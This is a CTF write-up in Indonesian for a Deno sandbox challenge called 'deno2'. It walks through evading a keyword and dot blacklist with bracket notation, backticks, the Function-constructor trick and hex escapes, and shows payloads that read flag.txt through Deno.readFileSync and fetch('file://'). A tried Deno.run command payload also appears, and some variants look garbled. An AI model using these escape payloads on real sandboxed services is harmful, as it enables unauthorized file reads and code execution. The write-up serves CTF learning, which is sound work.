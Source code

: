 # DENO2

Alat

- Terminal
- Node
- Sublime text

Untuk menyelesaikan deno2 kita harus mencari tahu cara untuk mem-bypass const BLACK_LIST. Untungnya kita diberikan dua petunjuk yang memberitahu kita bahwa ada cara lain untuk memanggil fungsi/atribut/metode dari objek selain menggunakan titik, yaitu dengan menggunakan metode 

```jsx
object[`function`]
```

Disini kita sudah tahu cara mem-bypass pemanggilan fungsi tapi bagaimana dengan pemanggilan deno?.

Disitulah Deno masuk daftar hitam, dengan sedikit tekad dan pengetahuan yang minim saya bertanya kepada Mr. Google. Setelah berselancar di Google saya menemukan sebuah artikel yang menyatakan bahwa kita dapat memanggil objek dengan "ini" terlebih dahulu, misalnya this.deno.run().

kemudian dengan petunjuk kedua yang diberikan, saya menggunakan teknik fungsi anonim agar lebih mudah (menurut saya). Fungsi anonim bisa dibuat dengan menulis 

```jsx
({})["constructor"]["constructor"]("Code")()
```

() pada akhir code untuk memanggil fungsi anonim.

Dalam tantangan ini, kita tidak bisa menggunakan "" dan '', jadi kita menggantinya dengan (backtick). Untuk payload pertama saya buat seperti ini :
```jsx
({})[constructor][constructor](this[\`De\` + \`no\`][\`run\`]({cmd: [\`ls\`]}) )()
```

code di atask ternyata tidak berhasil, karena saya yakin ini harus berhasil. Saya mencoba kode di deno1 dan berhasil. Hmmm kemudian saya cek file dockernya ternyata deno.run tidak boleh, jadi saya ganti dengan membaca langsung filenya seperti yang saya tulis di deno1 yaitu dengan deno.readfilesync(). kodenya akan seperti ini:

```jsx
({})[`constructor`][`constructor`](`decoder = new TextDecoder(\`utf-8\`);data = this[\`De\`+\`no\`][\`readFileSync\`](\`flag\x2etxt\`);return decoder[\`decode\`](data);`)()
```

catatan:\x2e untuk menggantikan . (dot)

Code di atas dapat berhasil. karena menurut saya jawaban saya terlalu panjang, saya bertanya kepada penulis, yang saya tanyakan seperti ini "apakah ada cara lain untuk mendapatkan flag", dan ternyata ada cara lain yaitu dengan menggunakan

```jsx
[][`constructor`][`constructor`](`return fetch(\`file:///ctf/flag\x2etxt\`)\x2ethen((a)=>a\x2etext()\x2ethen((b)=>console\x2elog(b)))`)()
```

dan

```jsx
[][constructor][constructor](return fetch(\\file:///ctf/flag\x2etxt\)\\x2ethen((a)=>a\\x2etext()\\x2ethen((b )=>console\\x2elog(b))))()
```

terima kasih kepada mas Dimas yang telah membantu saya.

### Referensi yang mungkin bisa membantu

[# HackTheBox "Business CTF" - discordvm - Node.js Sandbox Escape](https://www.youtube.com/watch?v=pzh6--wIp24&t=534s)

[Escaping nodejs vm](http://Gist.github.com/jcreedcmu/4f6e6d4a649405a9c86bb076905696af)
